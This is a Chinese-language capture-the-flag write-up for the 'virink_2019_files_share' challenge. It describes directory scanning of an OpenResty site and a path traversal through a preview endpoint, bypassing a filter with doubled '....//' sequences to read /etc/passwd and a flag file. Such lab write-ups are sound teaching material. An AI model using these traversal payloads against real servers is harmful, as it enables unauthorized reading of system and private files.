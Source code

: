 # virink\_2019\_files\_share

## virink\_2019\_files\_share

## 考点

* 目录扫描
* 任意文件下载
* 目录穿越
* Lua代码

## wp

提示`flag in f1ag_Is_h3re`，还提示是个脑洞题

index.gk这个后缀不知道什么东西，有两个js文件index.js和three.min.js，应该是魔方的源码。

看了一下响应头，服务器是openresty，它是一个基于 NGINX 的可伸缩的 Web 平台，可以使用 Lua 脚本语言调动 Nginx 支持的各种 C 以及 Lua 模块。

![](<../.gitbook/assets/image (12) (1) (1).png>)

扫描发现存在/uploads/目录，有个Preview文件，下载下来看看，没发现什么东西

![](<../.gitbook/assets/image (8) (1) (1) (1).png>)

下载链接格式如下，`http://90baaf07-a12e-437c-9470-dadb233172f2.node4.buuoj.cn:81/preview?f=favicon.ico`，尝试任意文件下载

`/preview?f=../index.gk`提示`File index.gk not found!`

`/preview?f=../index.gk/`提示`File index. not found!`

好像把`.`，`/`，`../`替换成空了，使用重写绕过

`/preview?f=....//....//....//....//....//....//....//etccc//passwd`可以看到`/etc/passwd`

![](<../.gitbook/assets/image (30) (1).png>)

payload：

```
/preview?f=....//....//....//....//....//....//....//f1ag_Is_h3reee//flag
```

直接访问即可

看了一下[GitHub的代码](https://github.com/CTFTraining/virink\_2019\_web\_files\_share/blob/master/src/preview.lua)，代码只过滤了`../`，和题目好像不一样。

## 小结

1. openresty可能是有lua文件
2. 下载要注意链接，是不是存在任意文件下载
